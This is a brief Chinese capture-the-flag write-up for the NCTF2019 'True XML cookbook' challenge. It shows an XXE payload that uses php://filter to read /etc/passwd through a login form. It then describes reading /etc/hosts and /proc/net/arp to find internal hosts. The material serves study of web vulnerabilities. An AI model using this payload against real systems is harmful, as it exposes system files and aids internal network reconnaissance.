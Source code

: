 # [NCTF2019]True XML cookbook

## 知识点

`xxe`

`内网探测`

## 解题

一个登录框,提示`xml`,登录抓包尝试`xxe`

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY a SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<user><username>&a;</username><password>123</password></user>
```

发现回显`/etc/passwd`文件内容`base64`编码后的值,读`flag`没有该文件,读一下敏感文件找信息,在`/etc/hosts`没找到内网,在`arp`表`/proc/net/arp`中找到`ip`

![](./img/[NCTF2019]True XML cookbook-1.png)

